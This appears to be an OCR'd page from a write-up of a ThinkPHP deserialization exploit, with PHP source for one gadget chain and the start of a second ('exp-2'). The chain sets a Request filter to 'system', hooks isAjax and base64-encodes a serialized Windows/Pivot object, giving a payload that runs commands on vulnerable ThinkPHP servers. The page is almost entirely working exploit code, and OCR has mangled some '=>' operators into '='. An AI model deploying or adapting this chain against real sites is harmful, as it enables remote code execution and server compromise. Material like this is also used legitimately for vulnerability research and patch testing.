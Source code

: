 ```php
        'var_ajax'         ='_ajax',
        // 表单pjax伪装变量
        'var_pjax'         ='_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     ='s',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   =['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   ='',
        // 域名根，如thinkphp.cn
        'url_domain_root'  ='',
        // HTTPS代理标识
        'https_agent_name' ='',
        // IP代理获取标识
        'http_agent_ip'    ='HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  ='html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ['var_ajax' =''];
        $this->hook = ['visible' =[$this,'isAjax']];
    }
}
namespace think\process\pipes;
use think\model\Pivot;

class Windows{
    private $files = [];
    public function __construct(){
        $this->files = [new Pivot()];
    }
}

namespace think\model;
use think\Model;

class Pivot extends Model{
}

use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```

- exp-2

```php
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->data = ['H3rmesk1t' =new Request()];
        $this->append = ['H3rmesk1t' =[]];
    }
}
class Request{
    protected $filter;
    protected $hook = [];
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       ='_method',
```